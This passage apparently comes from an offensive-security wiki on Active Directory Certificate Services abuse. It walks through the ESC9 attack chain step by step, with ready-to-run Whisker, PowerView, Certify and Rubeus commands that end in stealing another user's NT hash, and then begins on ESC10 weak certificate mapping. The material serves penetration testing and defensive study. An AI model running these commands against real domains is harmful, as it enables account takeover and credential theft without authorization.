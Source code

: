 Here, user1 has `GenericWrite` against user2 and want to compromise user3. user2 is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

First, the user2's credentials are needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example. Here just the `msDs-KeyCredentialLink` modification part with [Whisker](https://github.com/eladshamir/Whisker):

```powershell
Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
```

Then, the `userPrincipalName` of user2 is changed to user3 with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
```

The vulnerable certificate can be requested in a user2 session.

```powershell
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template"
```

The user2's UPN is changed back to something else.

```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@dmain.local'} -Verbose
```

Now, authenticating with the obtained certificate will provide the user3's NT hash during [UnPac the hash](../kerberos/unpac-the-hash.md). This action can be realised with [Rubeus](https://github.com/GhostPack/Rubeus). The domain must be specified since it is not present in the certificate.

```powershell
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /show
```

:::


### (ESC10) Weak certificate mapping 

To understand this privilege escalation, it is recommended to know how certificate mapping is performed. It is presented in [this section](certificate-templates.md#certificate-mapping).

This ESC refers to a weak configuration of the registry keys:

#### Case 1

 * `StrongCertificateBindingEnforcement` set to `0`, meaning no strong mapping is performed
 * A template that specifiy client authentication is enabled (any template, like the built-in `User` template)
 * `GenericWrite` right against any account A to compromise any account B

> [!WARNING]
> At the time of writting (06/08/2022), there is no solution as a low privileged user to read the `StrongCertificateBindingEnforcement` value. It is worth to try the attack hopping the key is misconfigured.
